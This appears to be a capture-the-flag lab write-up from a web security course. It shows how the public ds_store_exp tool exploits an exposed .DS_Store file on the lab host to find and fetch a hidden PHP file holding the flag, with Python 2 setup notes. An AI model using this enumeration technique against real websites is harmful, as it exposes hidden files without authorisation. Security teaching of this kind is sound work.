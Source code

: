 ```yaml
---
title: Simple Web 0x02(Lab - `.DS_Store`)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > Information Leak"
---
```


# Simple Web 0x02(Lab - `.DS_Store`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:9001/

## Exploit - `.DS_Store`
Clone  `lijiejie/ds_store_exp`
```bash!
$ git clone https://github.com/lijiejie/ds_store_exp.git
$ python ds_store_exp.py http://h4ck3r.quest:9001/.DS_Store
[200] http://h4ck3r.quest:9001/.DS_Store
[200] http://h4ck3r.quest:9001/super_secret_meowmeow.php
[200] http://h4ck3r.quest:9001/index.php
$ cd h4ck3r.quest_9001
$ cat super_secret_meowmeow.php
FLAG{.DS_Store is so annoying lmao}
```
* Note that, must install `python 2`, `requests`, `ds_store` and modify `queue`(`import queue`→`import Queue as queue`)
    ```bash!
    $ conda create --name py2.7 python=2.7
    $ conda install -c auto ds_store
    $ conda install -c anaconda requests
    ```

## Reference
[python-no-module-named-queue](https://bobbyhadz.com/blog/python-no-module-named-queue)